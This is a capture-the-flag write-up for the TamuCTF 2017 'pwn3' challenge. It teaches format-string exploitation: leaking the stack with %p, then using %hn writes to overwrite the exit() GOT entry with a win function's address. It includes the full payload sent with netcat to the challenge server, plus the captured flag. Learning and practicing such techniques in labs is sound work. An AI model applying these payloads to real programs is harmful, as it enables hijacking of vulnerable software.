# [TamuCTF 2017](https://ctf.tamu.edu/)
### pwn3 - 150 Points



Here we are, with another pwning challenge. Let's start ^^.

```bash
$ wget https://ctf.tamu.edu/files/e02cea87728137d5da449db45dcb875e/pwn3
$ r2 pwn3
[0x080484b0]> aaa
[0x080484b0]> afl
.
.
0x080485ab    4 103          sym.print_flag
0x08048612    1 102          sym.main
.
.
```

Two interesting functions, and again, one of them is never called.

```bash
[0x080484b0]> axt sym.print_flag # Search for cross references to this function in the entire binary
[0x080484b0]>
```

Lets check what is happing inside the main one.

```bash
[0x080484b0]> pdf @ main
```



Well, it seems that the execution is pretty straightforward.
* Using gets function it saves your input in the memory address **local_208h** is pointing to.
* After that, **printf** is called pushing eax to the stack as a parameter.
* And finally **exit** is called.

We can extract the following conclusions:
1. This time **print_flag** is not being called under some obscure conditional (like in [pwn1](../pwn1/pwn1.md)), so there is no variable to be altered.
2. There is no internal function to be called, so we can not try to overwrite EIP either (like in [pwn2](../pwn2/pwn2.md)).

But, wait a moment, that **printf** call is a bit strange.



One push! that is strange because normally **printf** accepts two arguments at least. It should look something like this:

  
If the user's input is used as the first argument of **printf**, it means that the input will be interpreted as the format string itself.

> Aham, but... what implications does it have?

Well, with normals inputs, **printf** will behave "corretly", BUT look what happens if you provide format modifiers in your input (`input = "%p %p %p %p"`):



**printf** is leaking information of the stack!  
We are being able to see the content of the stack remotely!

> That's fantastic. Really, but this is not useful for our case right? I mean, we actually need to write stuff, not just read it.

Yeah, that's 100% right. But writing is still possible, just a bit more complex. I will try to explain it as simple as I can.

### Writing in memory with format string attacks.

The corner stone of writing in memory using format string attacks is the format modifier `%n`.  
`%n` modifier writes **the LENGTH of the string** in the address provided by the user **before** the modifier itself.

Lets see an example:

```cpp
int c;
printf("12345 %n blah\n", &c);
// Here c will be 6 because "12345 " is 6 bytes length!
```

So, lets try all of this out, the idea is to send a memory address, locate where is it into the stack and use the `%n` format parameter to save data in the memory address we provide.

We will input 4 As ("AAAA", which will be written in memory as `0x41414141` and easier to locate), several `%p` to see the stack content and find out where the "AAAA" string is allocated inside of the stack.

```bash
$ python -c 'print("AAAA" + "%p %p %p %p %p ")' | ./pwn3; echo
```



Good, it is in the 4^th^ `%p`. But imagine if the address was in the 300^th^ position. We had to write 300 times `%p`!
> What a mess! what then?

Indeed, It does exist another way of printing that 4^th^ value much more convenient for us: the index operator. 

```bash
$ python -c 'print("AAAA" + "%4$p")' | ./pwn3; echo
```

Basically using `<number>$` we are able to select the position of the data we want to select.



> Good! now we know that the address we need to write to is stored in the 4^th^ position. what now?

Obviously `0x41414141` is not the address we are interested in. We need to find an address whose content is worth modifying.  
Here is where the GOT table enters the scene.


### GOT (Global Offset Table)

In order to save memory, programs use shared libraries and the functions they contain. That way the same function does not need to be on every process but can be used on all of them.

The GOT is a table inside every process and the addresses it contains have addresses to these shared functions.
Because all of thess functions are being used inside our binary, we could to try to modify the value which points to one of them.
For that, we need to know, the specific function (and its address) of the GOT we want to modify. The following command will help us with that task.

```bash
$ objdump -R pwn3
```


But not all of them are good for us, the function to be replaced must be executed **AFTER** the vulnerable **printf** call.  
Radare2 will give us the answer.



We have a winner! exit() function.

Finally, we just need to know the value to write in that address. That value is nothing more than a memory address that contains the code we want to be executed. Can you think of what value it can be?
Lets check again the functions r2 :smiley:
```bash
[0x080484b0]> afl
.
.
0x080485ab    4 103          sym.print_flag
0x08048612    1 102          sym.main
.
.
```
> That's it! the address of `sym.print_flag`! (`0x080485ab`)

Ok, that was a lot right? Lets review all we have, just to not get lost.

1. We have the place where the address will be stored: the 4^th^ position:
```bash
$ python -c 'print("AAAA" + "%4$p")' | ./pwn3; echo
```

2. We have the address to write to.
```bash
$ python -c 'print("\x1c\xa0\x04\x08" + "%4$p")' | ./pwn3; echo
```

3. And here comes the last obstacle: We need to write the hex value **0x080485ab** through the `%n` operator.  
We know `%n` can write the length of the string with preceeds itself into the provided address, so at a first glance we could think in writing **134,514,087** (134,514,091 - 4 (we already wrote a 4-byte address)) chars:  
```bash
$ python -c 'print("\x1c\xa0\x04\x08" + "A"*134514087 + "%4$n")' | ./pwn3; echo
```

But aparently that is just to much for the pipe.  
We could try the `%<times>x` parameter. It just print as many memory bytes as we tell it to. 
```bash
$ python -c 'print("\x1c\xa0\x04\x08" + "%x"*134514087 + "%4$n")' | ./pwn3; echo
```

Meh! same result.  
But wait a moment, there is a special paramater `%h` which does the following:
> Specifies that a following d, i, o, u, x, or X conversion specifier applies to a short int or unsigned short int argument (the argument will have been promoted according to the integer promotions, but its value shall be converted to short int or unsigned short int before printing); **or that a following n conversion specifier applies to a pointer to a short int argument**.  -- C is For C Programming - Cask J. Thomson

Basically this is converting 4-bytes datatypes into 2-bytes ones.
We can use it to save our big value in two times. First we will save one half and then the other.  
Let's represent this.
    
    
    
Then, it makes sense that the first value to be written should be the lowest one `0x804-8 = 2044` in the address `0804a01e` (provided in big endian) which will be stored in the `4th` position of the stack.

```bash
$ python -c 'print("\x1e\xa0\x04\x08" + "addr2" + "%2044x" + "%4$hn" + "%____x" + "%_$hn")'
```
The second value to be written is the biggest one `0x85ab - (2044 + 8) = 32167` in the address `0804a01c` which will be stored in the `5th` position of the stack.

```bash
$ python -c 'print("\x1e\xa0\x04\x08" + "\x1c\xa0\x04\x08" + "%2044x" + "%4$hn" + "%32167x" + "%5$hn")'
```

Finally! lets try it!

```bash
python -c 'print("\x1e\xa0\x04\x08" + "\x1c\xa0\x04\x08" + "%2044x" + "%4$hn" + "%32167x" + "%5$hn")' | nc pwn.ctf.tamu.edu 4323
```

    

Answer: gigem{F0RM@1NG_1S_H4RD}

### Complete video

<a href="https://asciinema.org/a/8dtrs5jltesk48y8ch5ouwrkn?autoplay=1" target="_blank"></a>


### Notes for the author
r2 -X "stdin=\"\`python -c 'print(\"\x1e\xa0\x04\x08\x1c\xa0\x04\x08\" + \"%2044x%4$hn\" + \"%32167x%5$hn\")'\`\"" -d pwn3


### Tools used and some references:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [gdb](https://www.gnu.org/software/gdb/) - For binary debugging.
 * [pwntools](https://github.com/Gallopsled/pwntools) and [cyclic](http://docs.pwntools.com/en/stable/util/cyclic.html#pwnlib.util.cyclic.cyclic) - To generate unique substrings.
 * [draw.io](https://www.draw.io/) - To draw some graphics.
 * [asciinema](https://asciinema.org) - To record the session.

### Some references
https://0x00sec.org/t/picoctf-write-up-bypassing-aslr-via-format-string-bug/1920
https://ctf.tamu.edu/challenges

C is For C Programming - Cask J. Thomson (Fragment) - https://books.google.es/books?id=qeWyAAAAQBAJ&lpg=PA120&ots=Yk45UQR7EU&dq=Speci%EF%AC%81es%20that%20a%20following%20d%2C%20i%2C%20o%2C%20u%2C%20x%2C%20or%20X%20conversion%20speci%EF%AC%81er%20applies%20to%20a%20short%20int%20or%20unsigned%20short%20int%20argument%20(the%20argument%20will%20have%20been%20promoted%20according%20to%20the%20integer%20promotions%2C%20but%20its%20value%20shall%20be%20converted%20to%20short%20int%20or%20unsigned%20short%20int%20before%20printing)%3B%20or%20that%20a%20following%20n%20conversion%20speci%EF%AC%81er%20applies%20to%20a%20pointer%20to%20a%20short%20int%20argument.&hl=es&pg=PA120#v=onepage&q&f=false

